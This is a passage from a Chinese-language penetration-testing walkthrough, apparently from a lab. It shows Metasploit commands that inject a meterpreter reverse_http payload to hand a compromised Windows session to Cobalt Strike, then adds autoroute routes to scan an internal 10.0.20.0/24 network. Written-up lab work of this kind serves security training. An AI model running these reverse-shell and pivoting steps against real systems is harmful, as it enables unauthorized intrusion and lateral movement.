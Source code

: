 由于我们的权限较高，而且是64位的木马，所以这里我们可以不迁移进程。







### 5.3 *联动CS上线（可选）：



cs设置监听器 端口不要和msf一样

 payload选择 `windows/meterpreter/reverse_http`

msf操作：

```shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set session 1  # 这里为msf的session
set lhost eth0
set lport 4445
set disablepayloadhandler 1
run
```







## 6.添加路由 进一步扫描内网 

现在我们的kali 攻击机并不能扫描的到内网，也就是10.0.20.98 这台机器。

把kali获取到的session 挂在后台

```
bg     #或者是background
use post/multi/manage/autoroute   #添加路由
set session 1   #添加我们刚才挂在后台的 session
run
```

> 或者用这几条命令，没有什么区别
>
> run get_local_subnets  #获取目标内网相关信息
> run autoroute -s 10.0.20.0/24  #添加路由
> run autoroute -p    #查看路由

![](img/2022-01-18_19-27-28.png)
